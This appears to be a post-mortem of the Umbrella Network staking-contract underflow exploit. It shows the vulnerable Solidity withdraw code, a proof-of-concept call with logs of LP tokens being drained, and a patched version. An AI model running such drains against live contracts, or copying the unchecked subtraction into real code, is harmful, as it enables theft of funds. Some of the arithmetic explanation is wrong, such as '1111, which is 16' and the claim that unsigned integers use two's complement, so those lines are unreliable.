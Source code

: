 # Umbrella

![hi Image](../images/umbrella/jo.avif)

## What's Umbrella?
Umbrella Network is a community owned, scalable and cost efficient oracle for the DeFi and blockchain community. 
Umbrella believes a community owned Oracle is not only possible, but essential to creating a truly decentralized financial system.

## Amount stolen
**$700k USD**



## Vulnerability
Underflow


## Analysis

The contract was exploited by underflow, the way underflow works is that numbers are basicly bits, for example if a number has uint8 it wil be 0000 for the number 0, but if you subsctract 1 it will be 1111, which is 16, the same is used in this line `_balances[user] = _balances[user] - amount;` where the balanc eof the user was 0 and it gets deducted by a value. yes the balance wouldn't be a negative number but `2^256 - 50`


### Representation of Numbers:

- In Solidity, numbers are typically represented using two's complement notation.
- For example, in a uint8 (8-bit unsigned integer), the binary representation of 0 is 00000000, and if you subtract 1, it becomes 11111111, which is 255 in decimal.

### Underflow in Solidity:
- In Solidity, unsigned integers cannot become negative through underflow. If you subtract a value from 0, it will wrap around to the maximum value for that data type.
- For example, subtracting 1 from 0 in a uint8 will result in 255.

### 2^256 - 50:
- Solidity uses modular arithmetic, so subtracting 50 from 2^256 will not result in a negative number. It will wrap around and be equivalent to 2^256 - 50.

### SafeMath:
- To prevent underflows and overflows, especially in balance-related calculations, it's recommended to use SafeMath or similar libraries.
- SafeMath includes checks to ensure that arithmetic operations cannot result in underflows or overflows.
So, in your case, if you're using _balances[user] = _balances[user] - amount; without SafeMath, and _balances[user] is 0, subtracting amount will wrap around to the maximum value of the data type, not become negative. However, using SafeMath is a good practice to prevent unintended behavior due to underflows.


### Exploited code

```solidity
      function _withdraw(uint256 amount, address user, address recipient) internal nonReentrant updateReward(user) {
        require(amount != 0, "Cannot withdraw 0");

        // not using safe math, because there is no way to overflow if stake tokens not overflow
        _totalSupply = _totalSupply - amount;
        _balances[user] = _balances[user] - amount;   //<---- underflow here.

        require(stakingTOken.transfer(recipent,amount),"token transfer failed");
      }
```

#### for example:

```
// Initial state
_totalSupply = 100;
_balances[user] = 0;
amount = 50;  // the amount to withdraw 

// After withdrawal
_totalSupply = _totalSupply - amount;  // 100 - 50 = 50
_balances[user] = _balances[user] - amount;  // 0 - 50 = underflow
```


# proof of concept (PoC) 


```solidity
       emit log_named_decimal_uint("Before exploiting, Attacker UniLP Balance", uniLP.balanceOf(address(this)), 18);

       StakingRewards.withdraw(8_792_873_290_680_252_648_282); //without putting any crypto, we can drain out the LP tokens in uniswap pool by underflow.

       emit log_named_decimal_uint("After exploiting, Attacker UniLP Balance", uniLP.balanceOf(address(this)), 18);
```

Logs:
```
  Before exploiting, Attacker UniLP Balance: 0.000000000000000000
  After exploiting, Attacker UniLP Balance: 8792.873290680252648282
```


# Solution

The method `_withdraw` should check wether the user has enough balance, and/or to prevent underflow it can use the `safe math` library using `.sub` instead of a `-` sign

```solidity
  function _withdraw(uint256 amount, address user, address recipient) internal nonReentrant {
        require(amount != 0, "Cannot withdraw 0");
        require(_balances[user] >= amount, "Insufficient balance for withdrawal");

        // Use safe math to prevent underflow
        _totalSupply = _totalSupply.sub(amount);
        _balances[user] = _balances[user].sub(amount);

        require(stakingTOken.transfer(recipent,amount),"token transfer failed");
    }

```


# Summary

Underflows are extremely common in smart contracts and they should be prevented by the safemath library 
especially in methods involving transactions, to safeguard against underflows. While it may introduce 
additional gas costs, the security benefits far outweigh the risks associated with potential vulnerabilities 



**Code provided by:** [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/Umbrella_exp.sol)


[**< Back**](https://patronasxdxd.github.io/CTFS/)
